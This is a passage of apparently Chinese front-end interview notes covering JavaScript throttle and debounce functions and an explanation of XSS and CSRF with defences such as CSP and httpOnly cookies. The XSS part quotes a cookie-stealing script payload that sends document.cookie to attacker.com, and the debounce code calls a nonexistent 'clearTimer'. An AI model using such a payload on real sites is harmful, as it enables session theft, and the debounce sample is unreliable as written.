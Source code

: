 
## 14.节流，防抖

浏览器的 `resize`、`scroll`、`keypress`、`mousemove` 等事件在触发时，会不断地调用绑定在事件上的回调函数，极大地浪费资源，降低前端性能。

- 节流: n 秒内只运行一次，若在 n 秒内重复触发，只有一次生效。场景：常用于高频操作的限流，例如用户对按钮进行持续点击
- 防抖: n 秒后在执行该事件，若在 n 秒内被重复触发，则重新计时。场景：例如在输入字符3s后自动查询

```js
//同步节流
function throttle(fn, delay) {
    let prevTime = 0
    //这里用闭包有很多好处：1.访问外部变量 2.防止函数被gc
    return function (...args) {
        let timeNow = Date.now() // 返回的是时间戳，使用静态方法还减少了消耗
        if (timeNow - prevTime > delay) {
            //这里就直接调用，并且需要改变this指向
            fn.call(this, ...args)
            prevTime = timeNow
        }
    }
}

//防抖,防止用户在没操作就触发
function debounce(fn, delay) {
    let lastTimer = null
    return function (...args) {
        clearTimer(lastTimer)
        lastTimer = setTimeout(() => fn.call(this, ...args), delay)
    }
}
```

## 16.XSS/CSRF/跨域

xss跨站脚本攻击分几种
存储型xss攻击原理：在有用户输入的系统中，攻击者将恶意脚本放在文本中，当浏览器接收到服务器返回的信息后，会自动渲染script脚本中的内容，例如 `<script>document.location='[http://attacker.com/steal?c='+document.cookie](https://www.google.com/url?sa=E&q=http%3A%2F%2Fattacker.com%2Fsteal%3Fc%3D%27%2Bdocument.cookie)</script>`,会将用户网站重定向到恶意网站，且携带cookie信息。反射型xss：还是因为浏览器无法区分哪些是正常的script哪些是恶意注入的script，只要遇到符合html型式的都会正常解析，dom型也是类似，这种解决方法也比较简单：在前后端处理用户输入的特殊字符；在meta启用csp`<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self'">` ； 使用api，例如不使用innerHTML

csrf:
这个一般是用户被诱导到恶意网站（如钓鱼邮件，广告，xss恶意注入），然后通过隐藏的表单，发起用户非预期的操作，这种攻击会拿到用户的数据，进而访问更多的系统资源。为了防护可以使用：jwt+设置cookie：httpOnly: true, // 防止XSS窃取 secure: true, // 仅HTTPS传输

## 17.es6数组扩展

## 18.对象扩展

## 19.函数扩展
